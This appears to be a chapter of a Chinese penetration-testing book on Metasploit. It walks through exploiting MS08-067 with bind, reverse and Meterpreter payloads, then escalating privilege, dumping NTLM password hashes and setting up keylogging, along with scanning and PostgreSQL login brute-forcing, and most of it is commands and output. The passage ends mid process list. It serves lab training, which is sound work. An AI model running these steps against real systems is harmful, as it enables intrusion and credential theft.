



# 目标利用

目标攻击是将渗透测试与漏洞评估区分开来的一个领域。现在已经发现了漏洞，您将通过利用系统实际验证和利用这些漏洞，以期获得对目标网络及其系统的完全控制或附加信息和可见性。本章将重点介绍并讨论用于进行实际开发的实践和工具。

在本章中，我们将介绍以下主题：

*   在*漏洞研究*部分，我们将解释漏洞研究的哪些领域对于理解、检查和测试漏洞至关重要，然后再将其转化为实际的漏洞代码。
*   我们将向您指出几个漏洞利用存储库，这些存储库应该让您了解公开可用的漏洞利用以及何时使用它们。
*   我们将从目标评估的角度说明臭名昭著的开发工具包之一的使用。这将使您清楚地了解如何利用目标获取敏感信息。*高级开发工具包*部分包含两个实践练习。
*   最后，我们将尝试简要描述为 Metasploit 编写简单利用模块的步骤。

从头开始编写利用漏洞的代码可能是一项耗时且昂贵的任务。因此，使用公开可用的漏洞并调整它们以适应您的目标环境可能需要专业知识，如果相似性和目的几乎相同，这将有助于您将一个漏洞的骨架转换为另一个漏洞。我们强烈鼓励在您自己的实验室中公开利用漏洞的做法，以进一步了解并开始编写您自己的漏洞代码。

# 脆弱性研究

了解特定软件或硬件产品的功能可以为调查该产品中可能存在的漏洞提供一个起点。进行脆弱性研究并不容易，也不是一键完成的任务。因此，进行安全性分析需要具有不同因素的强大知识库：

*   **编程技能**：这是道德黑客的基本要素。学习任何编程语言中存在的基本概念和结构都会使测试人员在发现漏洞时获得优势。除了编程语言的基本知识外，您还必须准备好处理处理器、系统内存、缓冲区、指针、数据类型、寄存器和缓存等高级概念。这些概念几乎可以在任何编程语言中实现，如 C/C++、Python、Perl 和汇编语言。

要了解从发现的漏洞编写攻击代码的基础知识，请访问[http://www.phreedom.org/presentations/exploit-code-development/exploit-code-development.pdf](http://www.phreedom.org/presentations/exploit-code-development/exploit-code-development.pdf) 。

*   **逆向工程**：这是通过分析电子设备、软件或系统的功能、结构和操作来发现其可能存在的漏洞的另一个广泛领域。其目的是从给定系统中推断代码，而不必事先了解其内部工作情况；检查其错误情况、设计不良的功能和协议；并对边界条件进行了检验。使用逆向工程技能有几个原因，例如从软件中删除版权保护、安全审计、竞争性技术情报、识别专利侵权、互操作性、理解产品工作流以及获取敏感数据。逆向工程为检查应用程序的代码增加了两层概念：源代码审计和二进制审计。如果您可以访问应用程序源代码，则可以通过自动化工具完成安全性分析；或者手动研究源，以提取可能触发漏洞的条件。另一方面，二进制审计简化了应用程序不存在任何源代码的反向工程任务。反汇编程序和反编译程序是两种通用的工具，可以帮助审核员进行二进制分析。反编译器从编译的二进制程序生成汇编代码，而反编译器从编译的二进制程序生成高级语言代码。然而，处理这两种工具都是相当具有挑战性的，需要仔细评估。
*   **插装工具**：插装工具，如调试器、数据提取器、模糊器、探查器、代码覆盖率、流分析器和内存监视器，在漏洞发现过程中发挥着重要作用，并为测试目的提供了一致的环境。解释这些工具类别超出了本书的范围。但是，您可能会发现 Kali Linux 中已经有一些有用的工具。为了跟踪最新的反向代码工程工具，我们强烈建议您访问在线库[http://www.woodmann.com/collaborative/tools/index.php/Category:RCE_Tools](http://www.woodmann.com/collaborative/tools/index.php/Category:RCE_Tools) 。
*   **可利用性和有效载荷构造**：这是为应用程序的易受攻击元素编写**概念验证**（**PoC**）代码的最后一步，该代码允许渗透测试人员在目标机器上执行自定义命令。我们从逆向工程阶段开始，利用我们对易受攻击应用程序的了解，使用编码机制来完善外壳代码，以避免可能导致漏洞利用过程终止的坏字符。

根据发现的漏洞的类型和分类，遵循允许您在目标系统上执行任意代码或命令的特定策略非常重要。作为一名专业的渗透测试人员，您将始终寻找导致 shell 访问目标操作系统的漏洞。因此，我们将在本章后面的一节中演示 Metasploit 框架的一些场景，其中将展示这些工具和技术。

# 漏洞和攻击存储库

多年来，在公共领域报告了许多漏洞。其中一些漏洞与 PoC 攻击代码一起披露，以证明在特定软件或应用程序中发现的漏洞的可行性和可行性。许多问题仍然没有得到解决。在这个寻找公开可用漏洞和漏洞信息的竞争时代，渗透测试人员更容易快速搜索和检索可能适合其目标系统环境的最佳可用漏洞。您还可以将一种类型的漏洞转移到另一种类型（例如，Win32 体系结构到 Linux 体系结构），前提是您具备中级编程技能，并且清楚地了解特定于操作系统的体系结构。我们提供了一组组合的在线存储库，可以帮助您通过搜索来跟踪任何漏洞信息或其漏洞。

并非所有发现的漏洞都已在互联网上向公众披露。有些报告没有任何 PoC 攻击代码，有些甚至没有提供详细的漏洞信息。因此，咨询多个在线资源是许多安全审计员的常见做法。

以下是联机存储库的列表：

| 存储库名称 | 网站地址 |
| Bugtraq 安全焦点 | [http://www.securityfocus.com](http://www.securityfocus.com) |
| OSVDB 数据包抗攻击性 | [https://blog.osvdb.org/](https://blog.osvdb.org/) |
| 包风暴 | [http://www.packetstormsecurity.org](http://www.packetstormsecurity.org) |
| 国家脆弱性数据库 | [http://nvd.nist.gov](http://nvd.nist.gov)  |
| IBM ISS X-Force | [https://exchange.xforce.ibmcloud.com/](https://exchange.xforce.ibmcloud.com/) |
| US-CERT 漏洞说明 | [http://www.kb.cert.org/vuls](http://www.kb.cert.org/vuls) |
| US-CERT 警报 | [http://www.us-cert.gov/cas/techalerts/](http://www.us-cert.gov/cas/techalerts/) |
| 安全团队 | [http://www.securiteam.com](http://www.securiteam.com) |
| 塞库尼亚咨询 | [http://secunia.com/advisories/historic/](http://secunia.com/advisories/historic/) |
| CXSecurity.com | [http://cxsecurity.com](http://cxsecurity.com) |
| XSSed XSS 漏洞 | [http://www.xssed.com](http://www.xssed.com) |
| 安全漏洞数据库 | [http://securityvulns.com](http://securityvulns.com) |
| 塞卜格 | [http://www.sebug.net](http://www.sebug.net) |
| 媒体服务实验室 | [http://techblog.mediaservice.net](http://techblog.mediaservice.net) |
| 智能攻击聚合网络 | [http://www.intelligentexploit.com](http://www.intelligentexploit.com) |

虽然还有许多其他的互联网资源可用，但我们只列出了一些经过审查的资源。Kali Linux 集成了来自攻击性安全的漏洞数据库。这提供了一个额外的优势，即使系统上的所有存档漏洞保持最新，以供将来参考和使用。要访问漏洞利用数据库，请在 shell 上执行以下命令：

```
 # cd /usr/share/exploitdb/
    # vim files.csv 
```

这将在`/usr/share/exploitdb/platforms/directory`下打开漏洞利用数据库当前可用的漏洞利用的完整列表。根据系统类型（Windows、Linux、HP-UX、Novell、Solaris、BSD、IRIX、TRU64、ASP、PHP 等），这些利用漏洞的行为在其相关子目录中进行分类。其中大多数漏洞是使用 C、Perl、Python、Ruby、PHP 和其他编程技术开发的。Kali Linux 已经附带了一些编译器和解释器来支持这些漏洞的执行。

我们如何从漏洞列表中提取特定信息？

使用 Bash 命令的强大功能，您可以操纵任何文本文件的输出以检索有意义的数据。您可以使用 Searchsploit，也可以通过在控制台上键入`cat files.csv |cut -d"," -f3`来完成。它将从`files.csv`文件中提取漏洞标题列表。要了解基本的 shell 命令，请参阅[http://tldp.org/LDP/abs/html/index.html](http://tldp.org/LDP/abs/html/index.html) 。

# 高级开发工具包

Kali Linux 预装了一些最好和最先进的开发工具包。Metasploit 框架（[http://www.metasploit.com](http://www.metasploit.com) 就是其中之一。在这里，我们对其进行了更详细的解释，并介绍了一些场景，这些场景将提高其生产效率，并增强您的渗透测试体验。该框架是用 Ruby 编程语言开发的，支持模块化，使渗透测试人员更容易使用最佳编程技能扩展或开发自定义插件和工具。框架的体系结构分为三大类：库、接口和模块。我们练习的一个关键部分是关注各种接口和模块的功能。接口（控制台、CLI、web 和 GUI）基本上在处理任何类型的模块（漏洞利用、有效负载、辅助设备、编码器和 NOP）时提供前端操作活动。以下每个模块都有自己的含义，并且是渗透测试过程特有的功能：

*   **漏洞利用**：此模块是为利用目标系统中的特定漏洞而开发的 PoC 代码
*   **有效载荷**：该模块是一种恶意代码，旨在作为攻击的一部分或独立编译，在目标系统上运行任意命令
*   **辅助设备**：这些模块是为执行扫描、嗅探、监护、指纹识别和其他安全评估任务而开发的工具集
*   **编码器**：提供这些模块是为了通过在渗透操作期间对有效负载进行编码来规避防病毒、防火墙、IDS/IPS 和其他类似恶意软件防御的检测
*   **无操作或未执行操作（NOP）**：该模块是一条汇编语言指令，通常添加到外壳代码中，除了覆盖一致的有效负载空间外，不执行任何操作

为了便于理解，我们将解释两个著名的 Metasploit 接口及其相关命令行选项的基本用法。每个接口都有自己的优缺点。但是，我们强烈建议您坚持使用控制台版本，因为它支持大多数框架功能。

# MSFConsole

MSFConsole 是渗透测试人员最高效、功能最强大、集所有功能于一体的集中式前端接口之一，可充分利用开发框架。要访问`msfconsole`，请导航到应用程序|开发工具| Metasploit 或使用终端执行以下命令：

```
 # msfconsole 
```

您将进入一个交互式控制台界面。要了解所有可用命令，可以键入以下命令：

```
 msf> help 
```

这将显示两组命令；一组将在整个框架中广泛使用，另一组将特定于存储评估参数和结果的数据库后端。有关其他使用选项的说明可以通过在 core 命令后使用`-h`来检索。让我们检查一下`show`命令的用法：

```
 msf> show -h
    [*] Valid parameters for the "show" command are: all, encoders, 
nops, exploits, payloads, auxiliary, plugins, options
    [*] Additional module-specific parameters are: advanced, evasion, 
targets, actions 
```

此命令通常用于显示给定类型或所有模块的可用模块。最常用的命令可以是以下任意命令：

*   `show auxiliary`：该命令将显示所有辅助模块。
*   `show exploits`：此命令将获取框架内所有漏洞利用的列表。
*   `show payloads`：此命令将检索所有平台的有效载荷列表。但是，在所选攻击的上下文中使用相同的命令将仅显示兼容的有效载荷。例如，Windows 有效负载将仅显示与 Windows 兼容的漏洞利用。
*   `show encoders`：此命令将打印可用编码器的列表。
*   `shownops`：此命令将显示所有可用的 NOP 发生器。
*   `show options`：此命令将显示特定模块可用的设置和选项。
*   `show targets`：此命令将帮助我们提取特定漏洞模块支持的目标操作系统列表。
*   `show advanced`：此命令将为您提供更多选项来微调漏洞利用执行。

下表列出了最有价值的命令的简短列表；您可以使用 Metasploit 控制台练习其中的每一项。您需要提供命令旁边的斜体术语：

| **命令** | **说明** |
| `check` | 验证针对易受攻击目标的特定攻击，而不利用该攻击。许多漏洞攻击都不支持此命令。 |
| `connectip port` | 工作原理与 Netcat 和 Telnet 工具类似。 |
| `exploit` | 启动选定的攻击。 |
| `run` | 启动选定的辅助程序。 |
| `jobs` | 列出当前运行的所有后台模块，并提供终止它们的功能。 |
| `route add subnet netmasksessionid` | 为通过受损会话的流量添加路由，以实现网络数据透视。 |
| `info module` | 显示有关特定模块的详细信息（漏洞利用、辅助等）。 |
| `setparam value` | 配置当前模块中的参数值。 |
| `setgparam value` | 在整个框架中全局设置所有漏洞利用和辅助模块使用的参数值。 |
| `unsetparam` | 这与`set`命令相反。您还可以使用`unset all`命令一次重置所有变量。 |
| `unsetgparam` | 取消设置一个或多个全局变量。 |
| `sessions` | 能够显示、与目标会话交互和终止目标会话。与`-l`用于列表，`-i`ID 用于交互，`-k`ID 用于终止。 |
| `search string` | 通过模块名称和描述提供搜索功能。 |
| `use module` | 在渗透测试环境中选择特定模块。 |

在接下来的部分中，我们将演示其中一些命令的实际使用。了解它们在框架内不同模块集上的基本用法对您来说很重要。

# MSFCLI

与 MSFConsole 接口一样，CLI 提供了对可以在任何一个实例上启动的各种模块的广泛覆盖。但是，它缺少 MSFConsole 的一些高级自动化功能。

要访问`msfcli`，请使用终端执行以下命令：

```
 # msfcli -x 
```

这将显示与 MSFConsole 类似的所有可用模式，以及用于选择特定模块和设置其参数的使用说明。请注意，所有变量或参数都应遵循`param=value`的约定，并且所有选项都区分大小写。我们介绍了一个选择和执行特定漏洞的小练习：

```
 # msfcli windows/smb/ms08_067_netapi O
    [*] Please wait while we load the module tree...

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOST                     yes       The target address
       RPORT    445              yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, 
SRVSVC) 
```

在上述命令末尾使用`O`指示框架显示所选漏洞的可用选项。以下命令使用`RHOST`参数设置目标 IP：

```
 # msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.7 P
    [*] Please wait while we load the module tree...

    Compatible payloads
    ===================

       Name                             Description
       ----                             -----------
    generic/debug_trap               Generate a debug trap in the target process
    generic/shell_bind_tcp           Listen for a connection and spawn a command shell
    ... 
```

最后，在使用`RHOST`参数设置目标 IP 后，是时候选择兼容的有效负载并执行我们的攻击：

```
 # msfcli windows/smb/ms08_067_netapi RHOST=192.168.0.7 LHOST=192.168.0.3 PAYLOAD=windows/shell/reverse_tcp E
    [*] Please wait while we load the module tree...
    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:4444 -> 192.168.0.7:1027)

    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```

如您所见，在为所选有效负载设置`LHOST`参数后，我们获得了对目标机器的本地 shell 访问权。

# 忍者 101 训练

本节中提供的示例将阐明您对如何以各种方式使用开发框架的理解。不可能将每个方面都用到，也不可能使用 Metasploit 框架，但我们已经仔细检查并提取了用于训练的最重要的功能。为了深入了解 Metasploit 框架，我们强烈建议您阅读在线教程*Metasploit unreleased*，位于[http://www.offensive-security.com/metasploit-unleashed/](http://www.offensive-security.com/metasploit-unleashed/) 。本教程采用高级材料编写，其中包括从渗透测试角度对漏洞开发、漏洞研究和评估技术的见解。

# 情景 1

在本练习中，我们将演示如何使用集成的 Nmap 工具将 Metasploit 框架用于端口扫描、操作系统指纹识别和服务识别。在 MSFConsole 上，执行以下命令：

```
 msf> load db_tracker
    [*] Successfully loaded plugin: db_tracker 
```

如果遇到数据库连接错误，可以使用以下两个命令：
`Systemclt start postgresql`
`Msfdb inint`

数据库跟踪器将保存为会话获取的数据以供进一步使用。要启动 Nmap 扫描，请输入以下内容：

```
    msf>db_nmap -T Aggressive -sV -n -O -v 192.168.0.7 Starting Nmap 5.00 ( http://nmap.org ) at 2010-11-11 22:34 UTC NSE: Loaded 3 scripts for scanning. Initiating ARP Ping Scan at 22:34 Scanning 192.168.0.7 [1 port] Completed ARP Ping Scan at 22:34, 0.00s elapsed (1 total hosts) Initiating SYN Stealth Scan at 22:34 Scanning 192.168.0.7 [1000 ports] Discovered open port 445/tcp on 192.168.0.7 Discovered open port 135/tcp on 192.168.0.7 Discovered open port 25/tcp on 192.168.0.7 Discovered open port 139/tcp on 192.168.0.7 Discovered open port 3389/tcp on 192.168.0.7 Discovered open port 80/tcp on 192.168.0.7 Discovered open port 443/tcp on 192.168.0.7 Discovered open port 21/tcp on 192.168.0.7 Discovered open port 1025/tcp on 192.168.0.7 Discovered open port 1433/tcp on 192.168.0.7 Completed SYN Stealth Scan at 22:34, 3.04s elapsed (1000 total ports) Initiating Service scan at 22:34
    Scanning 10 services on 192.168.0.7
    Completed Service scan at 22:35, 15.15s elapsed (10 services on 1 host)
    Initiating OS detection (try #1) against 192.168.0.7
    ...
    PORT     STATE SERVICE       VERSION
    21/tcpopen  ftp           Microsoft ftpd
    25/tcpopen  smtp          Microsoft ESMTP 6.0.2600.2180
    80/tcpopen  http          Microsoft IIS httpd 5.1
    135/tcp  openmsrpc         Microsoft Windows RPC
    139/tcp  opennetbios-ssn
    443/tcp  open  https?
    445/tcp  openmicrosoft-ds  Microsoft Windows XP microsoft-ds
    1025/tcpopen  msrpc         Microsoft Windows RPC
    1433/tcpopen  ms-sql-s      Microsoft SQL Server 2005 9.00.1399; RTM
    3389/tcpopen  microsoft-rdp Microsoft Terminal Service
    MAC Address: 00:0B:6B:68:19:91 (WistronNeweb)
    Device type: general purpose
    Running: Microsoft Windows 2000|XP|2003
    OS details: Microsoft Windows 2000 SP2 - SP4, Windows XP SP2 - SP3, or Windows Server 2003 SP0 - SP2
    Network Distance: 1 hop
    TCP Sequence Prediction: Difficulty=263 (Good luck!)
    IP ID Sequence Generation: Incremental
    Service Info: Host: custdesk; OS: Windows
    ...
    Nmap done: 1 IP address (1 host up) scanned in 20.55 seconds
               Raw packets sent: 1026 (45.856KB) | Rcvd: 1024 (42.688KB)

```

此时，我们已成功扫描目标并将结果保存在当前数据库会话中。要列出发现的目标和服务，可以单独发出`db_hosts and db_services`命令。此外，如果您已经使用 Nmap 程序单独扫描了目标并以 XML 格式保存了结果，则可以使用`db_import_nmap_xml`命令将这些结果导入 Metasploit。

# 情景 2

在本例中，我们将演示 Metasploit 框架中的几个辅助项。关键是要了解它们在脆弱性分析过程中的重要性。

# SMB 用户名

此模块将执行目标 IP 地址扫描，试图定位与**服务器消息块**（**SMB**相关联的用户名。此服务由应用程序用于访问文件共享、打印机或网络上设备之间的通信。使用 Metasploit 辅助扫描器之一，我们可以确定可能的用户名。

首先，通过键入以下内容搜索 Metasploit 以查找扫描仪：

```
 msf> search SMB 
```

然后，我们可以查看可用于扫描开放 SMB 服务的不同扫描仪的数量：


要使用扫描仪，请键入以下内容：

```
 msf> use auxiliary/scanner/smb/smb_enumershares 
```

通过输入以下内容，将`RHOSTS`参数设置为网络范围，在本例中为`192.168.0.1/24`：

```
 msf> set RHOSTS 192.168.0.1/24 
```

然后，键入以下内容：

```
 msf> run 
```

扫描结果表明有一个 SMB 服务使用`METASPLOITABLE`用户名运行：



这可能表示开放共享或其他网络服务可能受到攻击。当我们开始破解用户凭证和密码时，`METASPLOIT`用户名还可以为我们提供一个起点。

# 空白身份验证扫描器

此模块将扫描无需任何身份验证详细信息即可访问的**虚拟网络计算**（**VNC**服务器的 IP 地址范围：

```
 msf> use auxiliary/scanner/vnc/vnc_none_auth
    msf auxiliary(vnc_none_auth) > show options
    msf auxiliary(vnc_none_auth) > set RHOSTS 10.4.124.0/24
    RHOSTS => 10.4.124.0/24
    msf auxiliary(vnc_none_auth) > run
    [*] 10.4.124.22:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    [*] 10.4.124.23:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    [*] 10.4.124.25:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    [*] Scanned 026 of 256 hosts (010% complete)
    [*] 10.4.124.26:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    [*] 10.4.124.27:5900, VNC server security types supported : None, 
free access!
    [*] 10.4.124.28:5900, VNC server security types supported : None, 
free access!
    [*] 10.4.124.29:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    ...
    [*] 10.4.124.224:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    [*] 10.4.124.225:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    [*] 10.4.124.227:5900, VNC server security types supported : None, 
free access!
    [*] 10.4.124.228:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    [*] 10.4.124.229:5900, VNC server protocol version : "RFB 004.000", 
not supported!
    [*] Scanned 231 of 256 hosts (090% complete)
    [*] Scanned 256 of 256 hosts (100% complete)
    [*] Auxiliary module execution completed 
```

请注意，我们发现了几个无需身份验证即可访问的 VNC 服务器。如果没有授权控制，这个攻击向量会对系统管理员造成严重威胁，并且可以从 Internet 上简单地邀请不想要的访客从您的 VNC 服务器上访问。

# PostGRESQL 登录

在前几章中，我们在针对 Metasploitable 操作系统的 Nmap 扫描期间识别了在端口`5432`上运行的 PostgreSQL 数据库服务：



我们可以利用 Metasploit 辅助扫描程序来确定有关数据库的登录信息。首先，我们通过键入以下内容配置 Metasploit 以利用扫描仪：

```
 msf> use auxiliary/scanner/postgres/postgres_login
```

接下来，我们要配置其中两个选项。第一个选项将扫描仪设置为继续扫描，即使它发现成功登录。这允许我们扫描大量数据库实例，并枚举许多用户名和密码。我们通过键入以下内容来配置：

```
 msf> set STOP_ON_SUCCESS true 
```

其次，我们设置要扫描的主机。扫描仪将采用 CIDR 范围或单个 IP 地址。在本例中，我们将把扫描器指向位于`192.168.0.30`的 Metasploitable OS，因为我们在检查 Nmap 扫描时确定，该 IP 地址上有一个活动实例。我们通过键入以下内容进行设置：

```
 msf> set RHOSTS 192.168.0.30
```

然后我们运行这个漏洞。检查输出时，我们可以看到该数据库的用户名和密码：



数据库安全对于组织来说至关重要，因为数据库通常包含机密信息。诸如 PostgreSQL 之类的扫描程序使我们能够以高效的方式测试组织中皇冠宝石周围的安全性。

# 情景 3

现在，我们将探讨一些常见有效负载（绑定、反向和 MeterMeter）的使用，并从开发角度讨论它们的功能。本练习将让您了解如何以及何时使用特定负载。

# 绑壳

绑定外壳程序是一种远程外壳程序连接，通过设置绑定端口侦听器，在成功利用和执行外壳程序代码时提供对目标系统的访问。这会打开一个网关，让攻击者使用 Netcat 等工具连接回绑定外壳端口上的受损机器，该工具可以通过 TCP 连接对标准输入（`stdin`和输出（`stdout`进行隧道传输。此场景的工作方式与 Telnet 客户端建立到 Telnet 服务器的连接的方式类似，并且适用于攻击者位于**网络地址转换**（**NAT**）或防火墙后面的环境，并且不可能从受损主机直接联系到攻击者 IP。

以下是开始利用和设置绑定 shell 的命令：

```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > show options
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/bind_tcp
    PAYLOAD => windows/shell/bind_tcp
    msf exploit(ms08_067_netapi) > exploit

    [*] Started bind handler
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:41289 ->
192.168.0.7:4444) at Sat Nov 13 19:01:23 +0000 2010
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```

因此，我们分析了 Metasploit 还使用集成的多线程处理程序自动连接到绑定 shell 的过程。在使用绑定外壳代码编写自己的漏洞攻击时，Netcat 等工具可以派上用场，这需要第三方处理程序来建立与受损主机的连接。您可以在[上阅读 Netcat 用于各种网络安全操作的一些实际示例 http://en.wikipedia.org/wiki/Netcat](http://en.wikipedia.org/wiki/Netcat) 。

# 倒壳

反向壳与绑定壳完全相反。它不是在目标系统上绑定端口并等待来自攻击者机器的连接，而是简单地连接回攻击者的 IP 和端口，并生成一个外壳。反向外壳的一个可见维度是考虑 NAT 或防火墙背后的目标，以防止公共访问其系统资源。

以下是开始利用和设置反向 shell 的命令：

```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > set PAYLOAD windows/shell/reverse_tcp
    PAYLOAD => windows/shell/reverse_tcp
    msf exploit(ms08_067_netapi) > show options
    msf exploit(ms08_067_netapi) > set LHOST 192.168.0.3
    LHOST => 192.168.0.3
    msf exploit(ms08_067_netapi) > exploit

    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.0.7
    [*] Command shell session 1 opened (192.168.0.3:4444 ->
192.168.0.7:1027) at Sat Nov 13 22:59:02 +0000 2010
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.

    C:WINDOWSsystem32> 
```

您可以使用攻击者的 IP 清楚地区分反向 shell 和绑定 shell。我们必须在反向 shell 配置中提供攻击者的 IP（例如，`LHOST``192.168.0.3`），而不需要在绑定 shell 中提供。

内联有效负载和 stager 有效负载之间的区别是什么？内联有效负载是一个单独的自包含外壳代码，将与一个漏洞实例一起执行，而 stager 有效负载在攻击者和受害者机器之间创建一个通信通道，以读取其余的 staging 外壳代码，以便执行特定任务。通常选择分段有效载荷，因为它们比内联有效载荷小得多。

# 仪表

MeterMeter 是一种先进的、隐蔽的、多方面的、动态可扩展的有效负载，它通过将反射 DLL 注入目标内存进行操作。可以在运行时动态加载脚本和插件，以扩展利用后活动。这包括权限提升、转储系统帐户、键盘记录、持久后门服务和启用远程桌面。此外，默认情况下，仪表外壳的整个通信都是加密的。

以下是开始利用和设置 MeterMeter 有效负载的命令：

```
 msf> use exploit/windows/smb/ms08_067_netapi
    msf exploit(ms08_067_netapi) > set RHOST 192.168.0.7
    RHOST => 192.168.0.7
    msf exploit(ms08_067_netapi) > show payloads
    ...
    msf exploit(ms08_067_netapi) > set PAYLOAD 
windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf exploit(ms08_067_netapi) > show options
    ...
    msf exploit(ms08_067_netapi) > set LHOST 192.168.0.3
    LHOST => 192.168.0.3
    msf exploit(ms08_067_netapi) > exploit

    [*] Started reverse handler on 192.168.0.3:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP Service Pack 2 - lang:English
    [*] Selected Target: Windows XP SP2 English (NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (749056 bytes) to 192.168.0.7
    [*] Meterpreter session 1 opened (192.168.0.3:4444 ->
192.168.0.7:1029) at Sun Nov 14 02:44:26 +0000 2010
    meterpreter> help
    ... 
```

如你所见，我们已经成功地获得了一个流量计外壳。通过键入，我们将能够看到各种类型的可用命令。让我们检查我们当前的权限，并使用名为`getsystem`的 MeterMeter 脚本将其升级到`SYSTEM`级别：

```
    meterpreter>getuid
    Server username: CUSTDESKsalesdept
    meterpreter> use priv
    meterpreter>getsystem -h
    ...
```

这将显示可用于提升我们特权的技术数量。通过使用默认命令`getsystem`，在没有任何选项的情况下，它将尝试针对目标的每一项技术，并在成功后立即停止：

```
 meterpreter>getsystem
    ...got system (via technique 1).
    meterpreter>getuid
    Server username: NT AUTHORITYSYSTEM
    meterpreter>sysinfo
    Computer: CUSTDESK
    OS      : Windows XP (Build 2600, Service Pack 2).
    Arch    : x86
    Language: en_US 
```

如果选择执行`-j -z`利用命令，则将利用执行推到后台，并且不会显示交互式 MeterMeter 外壳。但是，如果会话已成功建立，则您可以使用会话`-i`ID 与该特定会话进行交互，或者通过键入会话`-l`以获取确切的 ID 值来获取活动会话的列表。

让我们使用 MeterMeter 外壳的功能，转储目标持有的当前系统帐户和密码。这些将以 NTLM 哈希格式显示，并可通过使用以下命令通过多种工具和技术进行破解来反转：

```
 meterpreter> run hashdump
    [*] Obtaining the boot key...
    [*] Calculating the hboot key using SYSKEY 71e52ce6b86e5da0c213566a1236f892...
    [*] Obtaining the user list and keys...
    [*] Decrypting user keys...
    [*] Dumping password hashes...
    h
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    HelpAssistant:1000:d2cd5d550e14593b12787245127c866d:d3e35f657c924d0b31eb811d2d986df9:::
    SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:c8edf0d0db48cbf7b2835ec013cfb9c5:::
    Momin Desktop:1003:ccf9155e3e7db453aad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    IUSR_MOMINDESK:1004:a751dcb6ea9323026eb8f7854da74a24:b0196523134dd9a21bf6b80e02744513:::
    ASPNET:1005:ad785822109dd077027175f3382059fd:21ff86d627bcf380a5b1b6abe5d8e1dd:::
    IWAM_MOMINDESK:1009:12a75a1d0cf47cd0c8e2f82a92190b42:c74966d83d519ba41e5196e00f94e113:::
    h4x:1010:ccf9155e3e7db453aad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    salesdept:1011:8f51551614ded19365b226f9bfc33fab:7ad83174aadb77faac126fdd377b1693::: 
```

现在，让我们通过使用 MeterMeter shell 的键盘记录功能记录击键，并使用以下命令进一步了解此活动，这些命令可能会从我们的目标显示一些有用的数据：

```
 meterpreter>getuid
    Server username: NT AUTHORITYSYSTEM
    meterpreter>ps
    Process list
    ============

     PID   Name              Arch  Session  User                          
Path
     ---   ----              ----  -------  ----                          
----
     0     [System Process]
     4     System            x86   0        NT AUTHORITYSYSTEM
     384   smss.exe          x86   0        NT AUTHORITYSYSTEM           
SystemRootSystem32smss.exe
     488   csrss.exe         x86   0        NT AUTHORITYSYSTEM           
??C:WINDOWSsystem32csrss.exe
     648   winlogon.exe      x86   0        NT AUTHORITYSYSTEM           
??C:WINDOWSsystem32winlogon.exe
     692   services.exe      x86   0        NT AUTHORITYSYSTEM           
C:WINDOWSsystem32services.exe
     704   lsass.exe         x86   0        NT AUTHORITYSYSTEM           
C:WINDOWSsystem32lsass.exe
    ...
    148   alg.exe           x86   0        NT AUTHORITYLOCAL SERVICE    
C:WINDOWSSystem32alg.exe
    3172  explorer.exe      x86   0        CUSTDESKsalesdept
C:WINDOWSExplorer.EXE
    3236  reader_sl.exe     x86   0        CUSTDESKsalesdept
